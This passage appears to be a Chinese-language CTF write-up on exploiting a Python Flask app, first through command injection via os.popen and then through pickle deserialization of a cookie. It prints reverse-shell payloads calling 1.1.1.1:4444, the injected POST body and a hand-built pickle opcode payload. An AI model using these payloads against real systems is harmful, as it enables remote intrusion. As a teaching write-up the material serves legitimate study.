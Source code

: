 不能有空格,但在bash中`tab`与空格等价url编码为`%09`

echo不输出换行符可使用参数-n.

请求后会报错,但实际上已写入文件.

![1](F:/Blog/M09Ic.github.io/source/_drafts/1.png)

![2](F:/Blog/M09Ic.github.io/source/_drafts/2.png)

依次写入反弹shell的payload:`bash -c 'bash -i >/dev/tcp/1.1.1.1/4444 0>&1'`,空格用tab代替.

最后post请求`msg=%2Bos.popen("sh%09a")%2B'&type='`即可执行代码反弹shell.

![1570702314420](C:\Users\M09ic\AppData\Roaming\Typora\typora-user-images\1570702314420.png)

### pickle反序列化

看到import了pickle这个库,第一反应就是python反序列化.

全局搜索pickle.

```python
@app.route('/message',methods=['POST','GET'])
def message():
    if request.method == 'GET':
        return render_template('message.html')
    else:
        type = request.form['type'][:1]
        msg = request.form['msg']
        try:
            info = base64.b64decode(request.cookies.get('user'))
            info = pickle.loads(info)
            username = info["name"]
        except Exception as e:
            print(e)
            username = "Guest"

		...
    	return render_template('message.html',msg=retstr,status='%s,留言成功'%username)

```

大致逻辑是,如果是post请求,则获取cookie中的user字段,base64解码,并触发反序列化.

反弹shell的payload,需要base64编码:

```
cposix
system
p1
(S"bash -c 'bash -i >/dev/tcp/1.1.1.1/4444 0>&1'"
p2
tp3
Rp4
.
```
